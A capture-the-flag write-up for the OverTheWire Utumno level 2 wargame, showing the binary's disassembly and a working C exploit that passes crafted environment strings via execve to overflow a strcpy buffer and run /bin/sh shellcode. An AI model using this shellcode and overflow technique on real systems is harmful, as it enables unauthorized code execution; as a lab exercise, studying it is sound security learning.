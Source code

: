 # Overthewire Utumno Level 2 Writeup

Since I am a newbie into reversing, this one is tough for me. After trying a lot of times, finally I took it down.
At the very beginning I tried to make the attacked program jump to an exported variable of the shell. Apparently it didn't work, since I have overwritten the `env` in the exploit. After a long time I found out all the `env`s have been flushed... Anyway here is the writeup.

I am given a small program which demands null argv to run, otherwise it quits:

```bash
$ gdb ./utumno2 -q
Reading symbols from ./utumno2...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804845d <+0>: push   %ebp
   0x0804845e <+1>: mov    %esp,%ebp
   0x08048460 <+3>: and    $0xfffffff0,%esp
   0x08048463 <+6>: sub    $0x20,%esp
   0x08048466 <+9>: cmpl   $0x0,0x8(%ebp)
   0x0804846a <+13>:  je     0x8048484 <main+39>
   0x0804846c <+15>:  movl   $0x8048540,(%esp)
   0x08048473 <+22>:  call   0x8048320 <puts@plt>
   0x08048478 <+27>:  movl   $0x1,(%esp)
   0x0804847f <+34>:  call   0x8048340 <exit@plt>
   0x08048484 <+39>:  mov    0xc(%ebp),%eax
   0x08048487 <+42>:  add    $0x28,%eax
   0x0804848a <+45>:  mov    (%eax),%eax
   0x0804848c <+47>:  mov    %eax,0x4(%esp)
   0x08048490 <+51>:  lea    0x14(%esp),%eax
   0x08048494 <+55>:  mov    %eax,(%esp)
   0x08048497 <+58>:  call   0x8048310 <strcpy@plt>
   0x0804849c <+63>:  mov    $0x0,%eax
   0x080484a1 <+68>:  leave
   0x080484a2 <+69>:  ret
End of assembler dump.
```

The vulnerability of this program is: It assumes that there should be some parameters given but it doesn't check how many of them are given. Since `argv` and `env` are placed in continuous memory. I have a chance here.
All the `env`s are under control and ASLR is disabled in the remote system. So the start address of `env` is fixed. I can pass null `argv` but 11 `env`s to trick the program. So it reads the 10th `env` as if it reads `argv[10]`.

The exploit:

```c
#include <unistd.h>

int main(){
        char *env[11];
        env[0]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"; // shellcode here
        env[1]=env[2]=env[3]=env[4]=env[5]=env[6]=env[7]=env[8]="";
        env[9]="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\xa9\xdf\xff\xff";
        env[10]=NULL;
        execve("/utumno/utumno2",NULL,env);
}
```

And then compile the exploit and run it to get the flag.
